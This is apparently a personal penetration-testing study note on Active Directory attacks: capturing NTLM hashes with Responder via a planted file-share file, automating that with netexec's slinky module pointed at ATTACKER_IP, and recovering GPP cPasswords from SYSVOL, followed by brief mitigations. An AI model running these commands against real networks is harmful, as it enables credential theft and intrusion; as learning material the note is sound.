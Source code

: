 So if we have a responder and the file is triggered then we can capture the hashes.

We can rename the file as:
```bash
@test
~test
```
- in order to force the visualization of it in the upper part of the folder


In the fileshare we have:
- ![[Pasted image 20241220144143.png]]


We setup a responder on the attacker machine:
```bash
sudo responder -I wlan0 -dPv
```


At this point when the user navigates the file share we will obtain data:
- ![[Pasted image 20241220144410.png]]



## netexec tool to automatize
Netexec is an evolution of crackmapexec that can be used to automatize:
```bash
netexec smb VICTIM_IP -d DOMAIN -u username -p Password -M slinky -o NAME=filename SERVER=ATTACKER_IP
```

It will create automatically the file into a file share space:
- ![[Pasted image 20241220144719.png]]


# GPP ATTACK
This is a older attack and it is done on the Group Policy Preferences that allowed admins to create policies using embendded credentials.

These credentials were encrypted and placed in a "cPassword".
- The key was acidentally released
- It was patched in MS14-025 but it doesn't prevemt previous uses

It still relevant.


So the idea is to have access to `Groups.xml` file in SYSVOL.

In this case we could find in it a cPassword and we can try to crack it:
- ![[Pasted image 20241220145119.png]]


We can also use ==**metasploit to do this type of attack with the module**== `smb_enum_GPP`:
- ![[Pasted image 20241220145327.png]]


## Mitigation
We can fix it in this way:
- Use the patch and update
- delete the old GPP xml file stored in SYSVOL
